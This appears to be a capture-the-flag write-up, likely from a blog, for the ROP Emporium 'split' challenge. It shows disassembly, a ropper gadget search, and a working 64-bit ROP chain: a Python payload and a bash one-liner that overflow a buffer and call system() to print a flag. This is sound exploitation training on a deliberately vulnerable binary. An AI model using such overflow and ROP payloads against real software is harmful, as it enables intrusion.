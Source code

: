 ```yaml
---
title: 02_split
categories: [series, rop_emporium]
---
```


# ROP Emporium split

* **Tools:** IDA Free 7.0, gdb-gef, checksec, ropper
* **Prerequistes:** Stack frame
* **Download solution:** [main.py](/assets/series/rop_emporium/main.py)

## Overview

> "You can do the [...] 64bit challenge with a 3 link chain."

So here we are, our first ROP. We'll have to find a gadget allowing to call `_system()` with the correct parameter. The binary has the same protection as the [previous one](/posts/ropemporium-ret2win).

## Function pwnme()

Overall, the function `pwnme()` is similar to the first challenge, except that `_fgets()` takes a longer input (96 bytes):
```
00000000004007EC    mov     rdx, cs:stdin@@GLIBC_2_2_5 ; stream
00000000004007F3    lea     rax, [rbp+s]
00000000004007F7    mov     esi, 96         ; n
00000000004007FC    mov     rdi, rax        ; s
00000000004007FF    call    _fgets
```
However, the basics idea remains the same: taking over _rip_ and no stack protector.

## Function usefulFunction()

At `0x400807` is a cool function calling `_system()`:
```
0000000000400807 usefulFunction  proc near
0000000000400807    push    rbp
0000000000400808    mov     rbp, rsp
000000000040080B    mov     edi, offset command ; "/bin/ls"
0000000000400810    call    _system
0000000000400815    nop
0000000000400816    pop     rbp
0000000000400817    retn
0000000000400817 usefulFunction  endp
```
It calls `_system()` with its first parameter pointing to the string `"/bin/ls"` (the Linux x64 calling convention puts parameters of functions in up to 6 registers: `RDI`, `RSI`, `RDX`, `RCX`, `R8`, `R9`; the Windows x64 calling convention uses `RCX`, `RDX`, `R8`, `R9`; and if a function requires more than 6 or 4 parameters they are put on the stack). However, we don't want to execute `"/bin/ls"`, but `"/bin/cat flag.txt"`. Let's do a search string in IDA with **alt+t** and enter "cat"; we find what we want at address `0x601060`:
```
0000000000601060                 public usefulString
0000000000601060 usefulString    db '/bin/cat flag.txt',0
``` 
Now it would be nice if we could put this address in `rdi`. Let's see what **ropper** can bring:
```bash
ropper -f split --search "pop ?di"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop ?di

[INFO] File: split
0x0000000000400883: pop rdi; ret; 
```
Yay! `0x400883` is the way to go.

## Chaining things

So, putting things together we'll have to:
* Hijack `rip` to reach `0x400883`, address of the gadget `pop rdi`;
* POP `"0x601060"` (the address of `"/bin/cat flag.txt"`) into `rdi`;
* Hijack `rip` to reach `0x400810`, address of the call to `_system()`.

Raw payload in Python:
```python
payload = b''
payload += b'\x41\x41\x41\x41\x41\x41\x41\x41' # buffer
payload += b'\x41\x41\x41\x41\x41\x41\x41\x41' # buffer
payload += b'\x41\x41\x41\x41\x41\x41\x41\x41' # buffer
payload += b'\x41\x41\x41\x41\x41\x41\x41\x41' # buffer
payload += b'\x42\x42\x42\x42\x42\x42\x42\x42' # RBP
payload += b'\x83\x08\x40\x00\x00\x00\x00\x00' # RIP: go to 'pop rdi'
payload += b'\x60\x10\x60\x00\x00\x00\x00\x00' # value to pop in rdi
payload += b'\x10\x08\x40\x00\x00\x00\x00\x00' # RIP: got to _system
```
Bash command line:
```bash
python -c 'print("\x41"*0x20+"\x42"*8+"\x83\x08\x40\x00\x00\x00\x00\x00\x60\x10\x60\x00\x00\x00\x00\x00\x10\x08\x40\x00\x00\x00\x00\x00")' | ./split
```

Stack frame after `_fgets()`:
```vim
0x00007fffffffe1d0: 0x4141414141414141  <-+ buffer start
0x00007fffffffe1d8: 0x4141414141414141    |
0x00007fffffffe1e0: 0x4141414141414141    |
0x00007fffffffe1e8: 0x4141414141414141  <-+ buffer end
0x00007fffffffe1f0: 0x4242424242424242  <-- RBP
0x00007fffffffe1f8: 0x0000000000400883  <-- gadget "pop rdi"
0x00007fffffffe200: 0x0000000000601060  <-- ->"/bin/cat flag.txt"
0x00007fffffffe208: 0x0000000000400810  <-- call _system()
```

---
EOF
